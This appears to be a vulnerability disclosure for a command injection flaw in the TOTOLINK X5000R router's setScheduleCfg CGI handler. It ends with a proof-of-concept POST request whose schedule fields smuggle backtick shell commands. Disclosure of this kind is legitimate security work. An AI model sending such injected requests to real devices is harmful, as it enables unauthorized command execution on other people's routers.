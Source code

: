 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setScheduleCfg` (at 0x410E4C), binary /web/cgi-bin/cstecgi.cgi. These parameters (`switch`, `week`, `hour`, `minute`, `recHour`) are passed to the `Uci_set_str` function without any check.
![](setScheduleCfg.png)
The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/schedule.html?timestamp=1733728879167


{"mode":"1","hour":"6`ls>/tmp/1`","minute":"6`ls>/tmp/2`","week":"2`ls>/tmp/3`","recHour":"0`ls>/tmp/4`","topicurl":"setScheduleCfg","token":"836e5d5bf36f2c943d6291c332aee9b0"}
```
